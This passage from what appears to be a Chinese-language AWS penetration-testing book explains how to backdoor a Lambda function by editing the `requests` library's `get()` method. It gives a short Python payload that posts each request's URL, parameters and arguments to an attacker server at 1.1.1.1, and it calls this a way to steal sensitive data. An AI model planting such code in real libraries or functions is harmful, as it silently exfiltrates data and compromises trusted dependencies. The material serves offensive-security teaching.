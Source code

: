 使用已包含请求库的示例 Lambda 函数

这个函数很短，所以在我们的攻击期间直接修改代码将对任何人都很明显，但因为它导入了`requests`库，而`requests`库源代码也在那里，所以那将是我们的目标。我们可以看到在第 4 行调用了`requests.get()`方法。如果我们在`requests`库的源代码中查找，我们可以找到`api.py`文件中的`requests.get()`方法，在此写作时位于第 63 行：

![](img/292e3758-55b4-461a-b11a-ba9f58338ab2.png)

`requests.get()`方法的源代码

我们已经知道每次 Lambda 函数运行时都会调用这个方法，所以我们只需要直接修改它，而不是修改调用它的文件（`lambda_function.py`）。这次我们的负载需要有所不同，因为整个`requests`库并未直接导入到`requests`库的每个文件中，所以我们必须使用`"request"`方法，而不是`requests.post()`。我们的负载将如下所示：

```

try:
    data = {'url': url, 'params': params, **kwargs}
    requests('POST', 'http://1.1.1.1', json=data, timeout=0.01)
except:
pass
```

这个 payload 基本上只是在完成原始请求之前窃取到发送到我们自己服务器的每个请求的所有细节。我们可能能够截获一些敏感数据以利用我们自己的利益。我们可以将恶意的窃取 payload 直接放在`get`方法中，如下面的截图所示：

![](img/30132e26-f6ca-417a-99b1-593714e5a6e2.png)
